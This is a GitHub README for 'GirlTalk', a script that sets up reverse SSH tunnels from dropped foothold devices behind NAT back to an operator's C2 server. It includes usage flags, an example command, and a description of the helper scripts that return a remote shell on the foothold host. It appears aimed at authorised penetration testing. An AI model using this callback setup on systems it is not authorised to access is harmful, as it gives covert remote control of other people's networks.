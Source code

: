 # README #
GirlTalk is a script for rapidly deploying reverse SSH tunnels to remotely positioned devices.

## Updates
* Added multi-user support
* Scripting options to allow fine-tuning & easier operation
* Girltalk now supports AWS C2 deployments with the -a option

## NOTE!
This tool is freely licensed but I do not take any responsibility for whatever you choose to do with this.
Therefore, only use this tool in association with systems and networks you have explicit permission to operate on!

## What is this repository for?

The intent behind GirlTalk is to utilize as much native functionality as possible for creating reverse SSH tunnels.
By using native functionality, we can simplify the deployment of droppable devices. A side effect of this is that Girltalk is easily auditable.
Girltalk will give operators a route to a deivce that is not easily accessible, such as when a device is behind Network Address Translation (NAT).

## USAGE
Girltalk is currently compatible with the following options:
Key/Cert Mode options:
```
  -a  Boolean option for keyed C2 infrastructure (This option has been tested with AWS as the C2)
  -k  Full path of SSH key
```

Password Mode options:
```
  -c  C2 host
  -u  C2 username
  -l  Local username to use

usage:	 girltalk.sh -c <C2 hostname/IP> -l <local_username> -u <C2_username>
example: girltalk.sh -c host.aws.com -u ubuntu -l hatchetface -a -k ~/.ssh/amazon-keypair.pem
```

## How does it work?
Girltalk takes advantage of the standard functionality of openssh, but scripts out the process of orchestrating the connection between the "foothold" host to be deployed behind
NAT and the control infrastructure operators have configued.
![example diagram](/images/diagram.png)

## How do I get set up?
To get started, run girltalk.sh on the host you wish to have call back to your C2. Select all appropriate flags and include relevant info for contacting the C2 server.
If you have an AWS server acting as your C2, you should make sure that the -a option is selected.

Girltalk will place an access script onto the C2 host called 'hmu_user.sh'. Running this newly created script will transfer local ssh keys back to the foothold host and
immediately return a shell for the foothold device.

## Connecting to the deployable host
When girltalk.sh is done, a new script will be made available in the root directory of the C2 host called 'hmu.sh'. Run this script from the C2 host, input the password for
the account specified during girltalk runtime and you should have a shell on the remotely deployed foothold host without needing any unknown routing information from the foothold
host!
